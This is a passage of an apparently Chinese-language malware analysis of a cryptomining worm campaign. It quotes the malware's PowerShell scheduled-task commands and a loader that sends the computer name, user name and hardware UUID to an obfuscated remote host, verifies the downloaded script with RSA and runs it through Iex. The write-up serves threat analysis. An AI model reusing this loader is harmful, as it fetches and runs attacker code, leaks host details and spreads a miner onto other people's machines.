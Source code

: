 ```powershell
		}
		schtasks /run /tn "$tnf\$tn"
		start-sleep 5
	}
}

# 删除老版本任务
schtasks /delete /tn Rtsa2 /F
schtasks /delete /tn Rtsa1 /F
schtasks /delete /tn Rtsa /F

```

功能上跟上版本的样本相比（MD5=51f6eba99e2b33e5458d78e41a130fe2）去除Host文件写入

最终写入计划任务的攻击指令：

```powershell
function a($u){
    $d=(New-Object Net.WebClient)."DownloadData"($u)
    $c=$d.count
    if($c -gt 173){$b=$d[173..$c]
    $p=New-Object Security.Cryptography.RSAParameters
    $p.Modulus=[convert]::FromBase64String('2mWo17uXvG1BXpmdgv8v/3NTmnNubHtV62fWrk4jPFI9wM3NN2vzTzticIYHlm7K3r2mT/YR0WDciL818pLubLgum30r0Rkwc8ZSAc3nxzR4iqef4hLNeUCnkWqulY5C0M85bjDLCpjblz/2LpUQcv1j1feIY6R7rpfqOLdHa10=')
    $p.Exponent=0x01,0x00,0x01
    $r=New-Object Security.Cryptography.RSACryptoServiceProvider
    $r.ImportParameters($p)
    if($r.verifyData($b,(New-Object Security.Cryptography.SHA1CryptoServiceProvider),[convert]::FromBase64String(-join([char[]]$d[0..171])))){Iex(-join[char[]]$b)}}
}
$url='http://'+'t.zer'+'9g.com'
a($url+'/a.jsp?mail_20200603?'+(@($env:COMPUTERNAME,$env:USERNAME,(get-wmiobject Win32_ComputerSystemProduct).UUID,(random))-join'*'))

```

通过RSA校验后请求并执行远程脚本`a.jsp`

PS: 在之前的活动中，计划任务命名Rtsa，Rtsa1，Rtsa2（与之前不同的是bluetea，blackball均不具有实际命令执行，只是起到Flag的作用，避免重复写入计划任务）



#### a.jsp （挖矿及传播）

```
http://t.zer9g.com/a.jsp?<SYS ENV><RANDOM NUM>
(MD5 = 1540b9fe58b8279bd256aaad9d879fbe)
```

`a.jsp` 的操作复杂很多，主要是

加载执行 `if.bin`蠕虫模块

根据系统环境选择执行`m6.bin` /`m6g.bin` 挖矿程序，后者可利用显卡加速，并下载显卡挖矿需要的DLL文件
